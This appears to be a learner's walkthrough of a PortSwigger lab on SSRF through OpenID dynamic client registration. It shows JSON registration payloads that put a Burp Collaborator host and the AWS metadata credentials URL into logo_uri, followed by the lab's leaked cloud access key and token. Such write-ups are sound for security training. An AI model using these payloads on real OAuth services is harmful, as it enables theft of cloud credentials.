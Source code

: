 # SSRF via OpenID dynamic client registration

## This lab allows client applications to dynamically register themselves with the [OAuth](https://portswigger.net/web-security/oauth) service via a dedicated registration endpoint. Some client-specific data is used in an unsafe way by the OAuth service, which exposes a potential vector for SSRF.

## To solve the lab, craft an [SSRF attack](https://portswigger.net/web-security/ssrf) to access `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/` and steal the secret access key for the OAuth provider's cloud environment.

## You can log in to your own account using the following credentials: `wiener:peter`

##### Note: this lab need burpsuite pro

---

step 1

login to account and logout
then login again and see HTTP history

![[lab5_http_history_first_login_2nd_login.png]]

step 2
click on auth?client_id in HTTP history

![[lab5_http_history_auth_client_id.png]]

step 3

##### Hint:

![[lab5_hint_openId_connect.png]]

step 4

my outh url: `oauth-0a4700430308cd268131e6cd02ed00ac.oauth-server.net`
add` /.well-known/openid-configuration` at the end of url

```
https://oauth-0a4700430308cd268131e6cd02ed00ac.oauth-server.net/.well-known/openid-configuration
```

open this url into browser you will get json file with bunch on details search reg

![[lab5_well_known_configuration.png]]

you can see same result in burpsuite
and search registration_endpoint
![[lab5_well_known_configuration_http_history.png]]

now open /reg link
`https://oauth-0a4700430308cd268131e6cd02ed00ac.oauth-server.net/reg`

![[lab5_auth_reg_invalid_request.png]]

in burpsuite

![[lab5_reg_404_not_found_http_history.png]]

step 5
send /reg to repeater change get request to post
send request you will get error only json supported

![[lab5_change_get_to_post_into_reg.png]]

step 6
test with json
but again error but this time redirect_uri mandatory

![[lab5_post_request_redirect_mandatory.png]]

step 7
add redirect_uris error because it must be in array format

![[lab5_redirect_uris_error_array.png]]

step 8
add redirect_uris in array format
you will get 201 response

![[lab5_redirect_uris_201_success.png]]

step 9

##### HINT:

![[lab5_unprotected_dynamic_client_registration.png]]

---

step 10
find client with id and with logo
it will be HTTP history when first time webpage load

![[lab5_client_with_id_with_logo.png]]

---

step 11

got to step 8
add logo_uri into json

```json
{
  "redirect_uris": ["https://example.com"]
}
```

use burp collaborator
`"logo_uri": "https://client-app.com/logo.png"`
change url with burp collaborator url
`"logo_uri": "z22ge24u498d6k8ho7kbnd9j0a61urig.oastify.com"`

```json
{
  "redirect_uris": ["https://example.com"],
  "logo_uri": "z22ge24u498d6k8ho7kbnd9j0a61urig.oastify.com"
}
```

add the above payload and send request you will get client id

![[lab5_add_burp_collab_url_in_logo_uri.png]]

---

step 12

use **\_\_\_\_**

step 10
replace client id with this client id send request

![[lab5_change_client_id_200_response.png]]

burp collaborator poll

![[lab5_burp_collab_http_response.png]]

---

step 13
go to /reg into repeater
add logo_uri : `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/`
final payload look like

```json
{
  "redirect_uris": ["https://example.com"],
  "logo_uri": "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"
}
```

![[lab5_admin_logo_uri_client_id_generated.png]]

---

step 14

got to /client into repeater
replace client id from **\_\_\_\_**

step 13

![[lab5_client_with_admin_client_id_scect_key_generated.png]]

---

step 15

```json
{
  "Code": "Success",
  "LastUpdated": "2023-06-08T14:13:01.577025071Z",
  "Type": "AWS-HMAC",
  "AccessKeyId": "ed6ZtIT2sQtcEBMadHym",
  "SecretAccessKey": "hhyXg2IbIKM4ksaOiLEsh2dIjg4BVeQaTpXyK3mW",
  "Token": "GEmC2Vk1YRCttuaokzEcF6cNvKdLrUgw2P4U4xtinAbK8a56Bm9USOa6Qo0a3cUaQUwBSX0NO5Dr2RCcB7EhMa9kuSLOnoEGBnFu7CJLDYY3BMGcblE3iTngdifFM0XjBce8MqZtCdm95E3oRiPnZvac09KUg2kxOCTwgUpQOpOLQE3UivyHtgJutlmRRN2yGYl0DhVotyiam7B6yN5tnqDd7rnxw9fMKMrM5VZzPNuo6nzfQo9blszLJeXRzYON",
  "Expiration": "2029-06-06T14:13:01.577025071Z"
}
```

submit SecretAccessKey: `hhyXg2IbIKM4ksaOiLEsh2dIjg4BVeQaTpXyK3mW`

![[portswigger_wsa/P03_advanced_topics/P22_OAuth_authentication/images/lab5_solved_lab.png]]

